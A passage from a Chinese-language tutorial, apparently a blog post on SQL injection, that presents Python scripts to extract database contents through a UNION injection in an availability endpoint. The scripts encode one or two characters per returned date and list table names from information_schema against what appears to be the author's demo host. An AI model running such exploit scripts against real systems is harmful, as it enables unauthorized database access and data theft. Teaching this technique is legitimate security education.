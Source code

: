 ``` python
    else:
      diff = datetime.datetime.strptime(d, "%Y-%m-%d").timestamp() - base_time
      result += chr(int(diff/86400))
      print(result)
  else:
    print('error')
    break

print(f"time: {time.time() - start}s")
```

跑起來的結果會是這樣：

![](/img/sql-injection-in-action/p5.png)

一次 leak 出一個字元，花了大約 40 秒得到完整結果。

### 加速：一次偷渡兩個字

既然都可以把資料換成數字偷偷塞在日期裡面了，何不一次偷渡兩個字呢？為了不讓數字衝突而且好算，第二個字需要再乘以 128。

程式碼如下：

``` python
# exploit-ava-2x.py
import requests
import datetime
import json
import urllib.parse
import time

def encode(raw):
  return urllib.parse.quote(raw.encode('utf8'))

host = 'https://od-php.herokuapp.com/sql'
base_time = 1672502400
index = 1
result = ''
field = 'group_concat(table_name)'
fr = " FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'"
fr = encode(fr)
start = time.time()
while True:
  payload = f'''
    ascii(SUBSTRING({field},{index}))*86400
    + ascii(SUBSTRING({field},{index+1}))*86400*128
    + {base_time}
  '''
  response = requests.get(f'{host}/availability.php?id=12345%20union%20select%201%20,{base_time},{encode(payload)},4%20{fr}&start_time=2023-01-01&end_time=2023-01-01')
  index +=2
  if response.ok:
    data = json.loads(response.text)
    d = data['events'][0]['end']
    if d == '2023-01-01':
      break
    else:
      diff = datetime.datetime.strptime(d, "%Y-%m-%d").timestamp() - base_time
      
      diff = int(diff/86400)
      first = diff % 128
      result += chr(first)

      second = int((diff - first) / 128)
```